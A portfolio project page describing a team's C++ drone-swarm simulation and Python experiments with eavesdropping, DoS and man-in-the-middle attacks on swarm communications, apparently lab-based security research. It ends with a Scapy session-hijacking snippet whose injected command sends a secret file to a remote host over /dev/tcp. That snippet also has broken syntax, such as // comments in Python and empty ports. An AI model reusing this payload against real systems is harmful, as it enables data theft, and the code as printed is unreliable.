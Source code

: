 ```yaml
---
layout: project
type: project
image: [nationaldefensemagazine](https://www.nationaldefensemagazine.org/-/media/sites/magazine/2023/12/swarm-vp-wed-pm.jpg)
title: "Unmanned Swarms"
date: 2024
published: true
labels:
  - Robotics
  - Simulation
  - C++
  - Python
  - Wireless Attacks
summary: "My team simulated and researched how drone swarm communications could be intercepted wirelessly."
---
```



My team and I developed a simulation of drone swarm movements using C++. We then conducted tests to explore methods for intercepting the communication between the drones, aiming to assess vulnerabilities in the system and potential defense strategies.

For the simulation, we needed to replicate the movement patterns of unmanned drones. Specifically, we implemented autonomous wall-following, a feature that enables a drone to navigate along a vertical surface, such as a wall, while maintaining a consistent distance. We achieved this by developing an algorithm that allows the drone to detect the proximity of the wall, adjust its trajectory, and follow the contour of the surface. In practical terms, this functionality is especially useful in environments like indoor spaces, tunnels, or urban areas where structures and boundaries are integral to navigation.

Our code incorporated the Gauss Markov mobility model, which adjusts to varying levels of randomness. In this model, speed and direction are derived from a Gaussian-distributed random variable. This approach is effective for simulating the movement of vehicles or drones that exhibit inertia, where future trajectories are influenced by their current state. The model operates within predefined physical boundaries, defined as a 2D box with specific X and Y limits. The mobility model updates the position of each drone at regular time intervals. A smoothing factor balances the randomness and the influence of the previous state in new state calculations. 

We experimented with different types of attacks on the drone swarm communication system with Python scripts. Passive attacks involved eavesdropping on wireless communications without altering data or affecting system operations, allowing us to quietly gather information. We also tested Denial of Service (DoS) attacks by flooding the network or specific devices with excessive traffic to disrupt or disable communication. Lastly, we explored Man-in-the-Middle (MitM) attacks, where communication between two parties was intercepted and potentially altered without their knowledge. 

These experiments helped us assess the vulnerabilities of unmanned drone swarm communication systems. To mitigate these attacks, we implemented several solutions, including strong encryption protocols to secure data transmitted over the wireless network, ensuring confidentiality and integrity. Additionally, we employed Frequency Hopping Spread Spectrum (FHSS), a technique that randomly switches communication frequencies, making it significantly more difficult for attackers to jam or intercept signals, thereby enhancing the resilience of the system.

Here is some code that illustrates how we hijacked the wireless communication:

```py
print("SENDING SESSION HIJACKING PACKET.........")
 IPLayer= IP(src="10.0.2.5", dst="10.0.2.6")                   //set IPS
 TCPLayer= TCP(sport=' ' , dport=23, flags="A",                //set Ports and Flag
 seq=' ', ack=' ')                                             //set sequence and acknowlege
 Data = "\r cat /home/seed/secret > /dev/tcp/10.9.0.1/9090\r"  //set malicious packet
 pkt = IPLayer/TCPLayer/Data                                   //set packet type
 ls(pkt)
 send(pkt,verbose=0) 
```
